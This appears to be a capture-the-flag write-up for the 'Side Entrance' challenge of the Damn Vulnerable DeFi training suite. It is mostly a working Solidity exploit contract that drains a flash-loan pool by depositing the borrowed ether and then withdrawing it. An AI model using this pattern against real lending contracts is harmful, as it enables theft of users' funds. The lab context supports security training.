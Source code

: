# 4. Side-entrance

- The solution here was simple - there was no re-entrancy guards anywhere so when entering the flashLoan function I side-entered another function.

```solidity
// SPDX-License-Identifier: MIT
// Damn Vulnerable DeFi v4 (https://damnvulnerabledefi.xyz)
pragma solidity =0.8.25;

import {SideEntranceLenderPool, IFlashLoanEtherReceiver} from "../SideEntranceLenderPool.sol";

contract SideEntranceLenderPoolAttack is IFlashLoanEtherReceiver {
    SideEntranceLenderPool immutable targetPool;
    address immutable recovery;

    constructor(SideEntranceLenderPool _pool, address _recovery) {
        targetPool = _pool;
        recovery = _recovery;
    }

    function attack() external {
        targetPool.flashLoan(address(targetPool).balance);
        targetPool.withdraw();
        payable(recovery).transfer(address(this).balance);
    }

    function execute() external payable {
        targetPool.deposit{value: msg.value}();
    }

    receive() external payable {}
}
```
